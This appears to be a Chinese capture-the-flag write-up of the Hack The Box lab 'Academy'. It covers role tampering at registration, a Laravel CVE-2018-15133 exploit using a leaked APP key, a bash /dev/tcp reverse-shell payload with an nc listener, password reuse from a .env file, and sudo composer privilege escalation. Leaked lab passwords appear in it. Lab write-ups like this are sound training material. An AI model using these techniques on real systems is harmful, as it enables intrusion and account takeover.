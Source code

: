 ## 端口扫描

首先常规nmap扫描

```
nmap -o nmapinitial -sC -sV -sT -Pn 10.10.10.215
```

![image-20210220003213124](https://static.hack1s.fun/images/2021/02/19/image-20210220003213124.png)

发现开了80和22

浏览器访问80发现需要改一下hosts

```bash
vim /etc/hosts
```

在里面最下面加上

```
10.10.10.215 academy.htb
```

之后在访问发现就是一个登录窗口

![image-20210220003412088](https://static.hack1s.fun/images/2021/02/19/image-20210220003412088.png)

可以注册登录

注册页面用burp抓包发现全部都是明文

![image-20210220003742397](https://static.hack1s.fun/images/2021/02/19/image-20210220003742397.png)

这个roleid看着比较可疑，注册时改成1之后可以用这个用户去访问`admin.php`

![image-20210220004427846](https://static.hack1s.fun/images/2021/02/19/image-20210220004427846.png)

在这个页面又看到了一个新的二级域名

访问之后像是一个debug界面

![image-20210220005817653](https://static.hack1s.fun/images/2021/02/19/image-20210220005817653.png)

这个页面里面能发现服务用的是monolog、laravel

在searchsploit搜一下

![image-20210220010135794](https://static.hack1s.fun/images/2021/02/19/image-20210220010135794.png)

发现有一个RCE，可以尝试一下

msf里头的这个运行之后一直提示无法创建session

github搜到这个CVE的exp

https://github.com/aljavier/exploit_laravel_cve-2018-15133

在上面那个http://dev-staging-01.academy.htb里面首先可以找到有的报错信息中含有APP Key

拿着这个key和exp的脚本运行命令

```bash
'bash -i > &/dev/tcp/10.10.14.135/1234 0>&1'
```

本地再开一个终端用nc监听

```bash
nc -lvvp 1234
```

但是不知道为啥有连接，但是没有办法交互，只能用exp慢慢执行命令了

发现在`/var/www/html/academy/.env`里面有一些配置的密码

![image-20210220015942316](https://static.hack1s.fun/images/2021/02/19/image-20210220015942316.png)

按照Hack The Box的靶机习惯，感觉这个mySup3rP4s5w0rd!!可能是哪个用户的密码，至少在哪里能用到；

之后查看`/etc/passwd`发现了一些比较像用户级用户的名称

![image-20210220020123831](https://static.hack1s.fun/images/2021/02/19/image-20210220020123831.png)

这里面用这个密码连`cry0l1t3`这个用户发现可以ssh连上

之后就拿到user.txt的flag

想要查看passwd，结果发现这个用户不在wheel组，没有sudo权限

![image-20210220020413701](https://static.hack1s.fun/images/2021/02/19/image-20210220020413701.png)

传了个提权脚本https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git

扫描到一个密码

![image-20210220021551396](https://static.hack1s.fun/images/2021/02/19/image-20210220021551396.png)

用户名`mrb3n`密码`mrb3n_Ac@d3my!`

登录这个用户之后执行

`sudo -l`

![image-20210220021920063](https://static.hack1s.fun/images/2021/02/19/image-20210220021920063.png)

看到composer具有sudo权限

在GTFObins里搜索composer https://gtfobins.github.io/gtfobins/composer/

把GTFObins里面那段代码跑一遍就提权了

![image-20210220022153764](https://static.hack1s.fun/images/2021/02/19/image-20210220022153764.png)

之后拿到root的flag

